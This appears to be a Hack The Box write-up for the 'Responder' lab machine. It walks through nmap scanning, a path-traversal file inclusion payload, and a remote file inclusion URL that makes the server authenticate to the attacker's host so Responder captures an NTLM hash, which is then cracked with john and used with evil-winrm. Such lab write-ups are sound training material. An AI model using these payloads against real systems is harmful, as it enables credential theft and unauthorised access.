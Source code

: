 ```yaml
---
title: HTB Responder
date: 2022-08-04 01:55:00 +0800
categories: [HTB]
tags: [SAMBA, Apache, WinRM, Enumeration]
pin: false
author: GRX6
layout: post
---
```


![responder-htb](https://www.hackthebox.com/storage/avatars/0348ed41851064f497d155c2a6af359a.png)

In this machine we will experiment with SMB relay attacks using a remote file inclusion in a website and connecting through Windows remote management system.

## Scanning and enumeration

Now it's time to start the active scanning.

As always, we define our TARGET and hosts file of our machine to facilitate the process.

```console
TARGET=10.129.5.42
echo "10.129.5.42 responder.htb" | sudo tee -a /etc/hosts
```

We launch a single `TCMP` probe to check ping.

```console
ping -c 1 $TARGET		# => Ping is working
```

We can see that it's a Windows system.

```console
PING 10.129.5.42 (10.129.5.42) 56(84) bytes of data.
64 bytes from 10.129.5.42: icmp_seq=1 ttl=127 time=55.0 ms

--- 10.129.5.42 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 54.962/54.962/54.962/0.000 ms
```

### NMAP

To scan the `target` to find open ports and possible vulnerabilities we use `nmap`.

First, simple `TCP` scan without `DNS` resolution and ping discovery, to all the ports and with the version detection. (I applied here `--min-rate` as the scan was very slow and we don't care about HTB machines...)

```console
nmap -n -Pn -sV -p- --min-rate 5000 $TARGET -vvv -oG allPorts
```

We can see that it has the following ports open:

```console
PORT     STATE SERVICE    REASON  VERSION
80/tcp   open  http       syn-ack Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http       syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp open  pando-pub? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We also start a UDP check.

```console
sudo nmap -n -Pn -sVC -sU -p- --min-rate 5000 $TARGET -vvv -oG allPortsUDP
```

Nothing here of interest.

We pass the scripts.

```console
nmap -n -Pn -sVC -oN targeted -vvv -p80,5985,7680 $TARGET
```


### Website in 80

```console
whatweb http://responder.htb
http://responder.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.5.42], Meta-Refresh-Redirect[http://unika.htb/], OpenSSL[1.1.1m], PHP[8.1.1], X-Powered-By[PHP/8.1.1]
ERROR Opening: http://unika.htb/ - no address for unika.htb

```

We see that it is redirecting to _<http://unika.htb>_ which we might need to also include in the hosts file after inspecting.

```console
echo "10.129.5.42 unika.htb" | sudo tee -a /etc/hosts
```

![unika-htb](/assets/images/posts/unika-htb.png)

We can inspect the source code of the site.

By inspecting the site we can see that we have a language selector that is loading the language file using a `page` parameter.

We can try to see if we are capable of launching a `LFI`.

_<http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts>_

It works. If we see an error message from php include, it can also provide information that the server is vulnerable to file inclusion. In this case we are using a local file inclusion, the idea is to link a remote file inclusion with a Samba relay attack.

We will start `Responder.py` that in kali is located in `/usr/share/responder`. The interface used is the `VPN` tunnel from `HTB`. 

```console
sudo Responder.py -I tun0
```

Then, we will call in the browser the remote file inclusion asking for a file in our server.

_<http://unika.htb/index.php?page=//10.10.14.221/hello>_

We will see in the responder that we intercepted the NTLM hash from the user. We just need to crack it with `john` and see if the user is using a common password.

```console
john -w=/usr/share/wordlists/rockyou.txt --format=netntlmv2 hash.txt
```

Please note that we put `-w*=*/usr/share`, it's very important to include the `=`. Sometimes we are use to put just the flag and we see strange errors from `john` about the `UTF-8`.

## Gaining access

Now that we have the password we are able to start a session in the PC. You can use `evil-winrm` and see the flag.